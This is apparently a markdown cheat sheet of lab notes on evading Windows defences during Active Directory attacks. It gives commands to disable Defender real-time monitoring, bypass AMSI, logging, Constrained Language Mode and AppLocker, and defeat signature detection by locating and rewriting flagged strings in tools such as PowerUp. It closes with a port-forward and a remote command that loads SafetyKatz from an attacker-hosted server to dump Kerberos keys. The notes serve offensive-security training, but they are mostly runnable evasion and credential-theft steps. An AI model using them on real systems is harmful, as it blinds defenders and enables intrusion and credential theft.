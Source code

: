 ## Bypass ScriptBlock logging, Module logging, Transcription and AMSI using invisi-shell

The usage is provided in the repository itself.
```
https://github.com/OmerYa/Invisi-Shell 
```
## Simply disable AV on machine if we have administrative access
```
Set-MpPreference -DisableRealtimeMonitoring $true
```
## Bypass Constrained Language Mode in powershell when we have administrator access
When PowerShell is in Constrained Language Mode, it enforces a set of language constraints that limit access to certain sensitive system resources and prevent potentially harmful operations. These constraints aim to mitigate risks associated with malicious or unintentional script behavior, reducing the potential impact of any security vulnerabilities or code execution exploits. Simply it only allows good code to run but if we have administrative access we can set session state to full language.
- Note: Constrained Language mode can also be set defaultly due to applocker and wdat policies in such case the below won't work so see applocker bypass. 
```
$ExecutionContext.SessionState.LanguageMode = "FullLanguage"
```
## AppLocker Bypass
AppLocker has some default rules that makes applocker useless for example it allows everyone to run scripts that are located in Program Files or Windows directory and if we have administrative access we can simply put those scripts in those directory and run them. 
- First check the applocker policy using below command
```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
- If we see for example PathConditions set to {%PROGRAMFILES%\*} or {%WINDIR%\*} it means the scripts can be run from those directory.

## Bypass signature based detections of powershell scripts by windows defender
Using https://github.com/RythmStick/AMSITrigger we can identify exact part of the script that is detected 
```
AmsiTrigger_x64.exe -i C:\Tools\Invoke-TcpOneLIner.ps1
```

## DefenderCheck to identify code/strings from binary or other file(ps1) that windows defender may flag
- https://github.com/t3hbb/DefenderCheck
```
DefenderCheck.exe PowerUp.ps1
```

## Obfscuating powershell scripts
Can be used to obfscuate AMSI-Bypasses from amsi.fail, maybe obfscuating invisi-shell, powerview, etc.
- https://github.com/danielbohannon/Invoke-Obfuscation

Note:
- You can use AMSITrigger and DefenderCheck to identify exact part where defender flags.
- Identify exact string using trial and error where it is flagging
- Modify that part/string using chatgpt
- Maybe also obfscuate that part only?

For example the identified string was System.AppDomain in the following code of PowerUp.

```
# Code ......
	$AppDomain = [Reflection.Assembly].Assembly.GetType('System.AppDomain').GetProperty('CurrentDomain').GetValue($null, @())
# Code.........
```
Here, the System.AppDomain can be reversed and referenced as a variable like this

```
$originalString = "niamoDppA.metsyS"
$reversedString = [char[]]$originalString -join ""
$reversedString = -join ($reversedString[$reversedString.Length..0])
$AppDomain = [Reflection.Assembly].Assembly.GetType("$reversedString").GetProperty('CurrentDomain').GetValue($null, @())
```
then check again with AmsiTrigger or DefenderCheck.

## Steps for bypassing offensive executables
- Use DefenderCheck and identify excat string getting flagged by trial and error method
- Find the open source project for that tool in github most are in c#
- open the project in visual studio
- press ctrl+H
- Find and replace the string identified by DefenderCheck 
- Select the scope as "Entire solution"
- Press "Replace All" button
- Build and ReCheck the binary with DefenderCheck
- Repeat above steps

# Port forward to bypass behaviour based detection
- executes port forward command on dcorp-mgmt machine where anything that is sent via 172.16.100.1 student machine's port 80 is forwarded to dcorp-mgmt's loopback address via port 8080 and anything that is sent through loopback 0.0.0.0 port 8080 is forwarded to 172.16.100.1's port 80 which is the student vm respectively.
```$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.1```

- Host Loader.exe via HFS on student vm and here using winrs on dcorp-mgmt machine Loader.exe will load safetykatz from http://127.0.0.1:8080/SafetyKatz.exe since port forwarding was done that anything that is sent through loopback 0.0.0.0 port 8080 is forwarded to 172.16.100.1's port 80 which is the student vm in this case  
```$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit```